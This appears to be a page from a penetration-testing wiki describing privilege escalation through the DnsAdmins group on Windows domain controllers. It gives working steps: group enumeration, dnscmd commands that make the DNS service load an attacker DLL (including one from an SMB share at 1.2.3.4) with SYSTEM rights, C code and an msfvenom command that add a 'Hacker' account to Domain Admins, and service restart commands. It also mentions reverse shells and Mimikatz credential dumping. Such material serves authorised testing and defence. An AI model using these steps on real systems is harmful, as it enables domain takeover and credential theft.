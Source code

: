As shown in this \*\*\*\* [**post**](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common):

* DNS management is performed over RPC
* [**ServerLevelPluginDll**](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to **load** a custom **DLL** with **zero verification** of the DLL's path. This can be done with the `dnscmd` tool from the command line
* When a member of the **`DnsAdmins`** group runs the **`dnscmd`** command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
* When the **DNS service is restarted**, the **DLL** in this path will be **loaded** (i.e., a network share that the Domain Controller's machine account can access)
* An attacker can load a **custom DLL to obtain a reverse shell** or even load a tool such as Mimikatz as a DLL to dump credentials.

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Then, if you have a user inside the **DNSAdmins group**, you can make the **DNS server load an arbitrary DLL with SYSTEM privileges** (DNS service runs as `NT AUTHORITY\SYSTEM`). You can make the DNS server load a **local or remote** (shared by SMB) DLL file executing:

```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

Or you could generate a dll using msfvenom:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

So, when the **DNSservice** start or restart, a new user will be created.

Even having a user inside DNSAdmin group you **by default cannot stop and restart the DNS service.** But you can always try doing:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
